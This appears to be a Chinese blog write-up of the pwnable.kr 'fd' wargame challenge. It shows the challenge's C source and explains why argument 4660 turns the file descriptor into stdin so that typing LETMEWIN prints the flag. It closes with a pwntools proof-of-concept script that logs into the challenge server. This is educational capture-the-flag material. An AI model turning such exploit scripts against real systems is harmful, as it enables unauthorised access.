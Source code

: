 ```yaml
---
date: 2016-02-24 22:48
image: /assets/images/markdown.jpg
headerImage: false
tag:
- markdown
- components
- extra
blog: true

layout: post
title: Pwnable-01-fd
description: >
  这是pwnable的第一题fd的解析过程,其中涉及到思路分析
#tags: [技术]
author: DshSec
---
```

#### pwnable介绍

  ['pwnable.kr'](https://pwnable.kr/index.php)is a non-commercial wargame site which provides various pwn challenges regarding system exploitation. the main purpose of pwnable.kr is 'fun'.    please consider each of the challenges as a game. while playing pwnable.kr, you could learn/improve system hacking skills but that shouldn't be your only purpose.
#### 源代码：

```c++
  #include <stdio.h>
  #include <stdlib.h>
  #include <string.h>
  char buf[32];

  int main(int argc, char* argv[], char* envp[]){
      if(argc<2){
  	printf("pass argv[1] a number\n");
  	return 0;
  	}
  	int fd = atoi( argv[1] ) - 0x1234; //atoi把字符串转成整形
  	int len = 0;
  	len = read(fd, buf, 32); //将参数fd所指的文件传送32个字符到buf
  	if(!strcmp("LETMEWIN\n", buf)){     //strcmp(str1,str2),str1=str2返回0，str1<str2返回负数，str1>str2返回正数
  		printf("good job :)\n");        //buf==LETMEWIN\n的时候输出flag
  		system("/bin/cat flag");    
  		exit(0);
  	}
  	printf("learn about Linux file IO\n");
  	return 0;

  }
```
#### 解题思路

```
  目标：执行system(“/bin/cat flag”);
  则：strcmp(“LETMEWIN\n”, buf) == 0
  则：buf = “LETMEWIN\n”
  则：read(fd, buf, 32)将buf设为”LETMEWIN\n”
  fd == 0为标准输入
  fd == 1为标准输出
  fd == 2为标准错误输出
  所以我们可以使fd == 0，然后从终端输入LETMEWIN后回车
  要使fd == 0，
  则：输入的参数 == 0x1234，即4660

  从文件描述符fd所指向的文件中读取count个字节的数据到buf所指向的缓存中。
  文件描述符是由无符号整数表示的句柄，进程使用它来标识打开的文件。
  文件描述符0代表标准文件。
  fd == 0为标准输入
  fd == 1为标准输出
  fd == 2为标准错误输出
```
#### 解答：

先输入0x1234的十进制即4660，然后再输入LETMEWIN
./fd 4660
LETMEWIN

#### poc
```python
  from pwn import *
  pwn_ssh=ssh(host='pwnable.kr',user='fd',password='guest',port=2222)
  print(pwn_ssh.connected())
  sh=pwn_ssh.process(argv=['fd','4660'],executable='./fd')
  sh.sendline('LETMEWIN')
  print(sh.recvall())
```
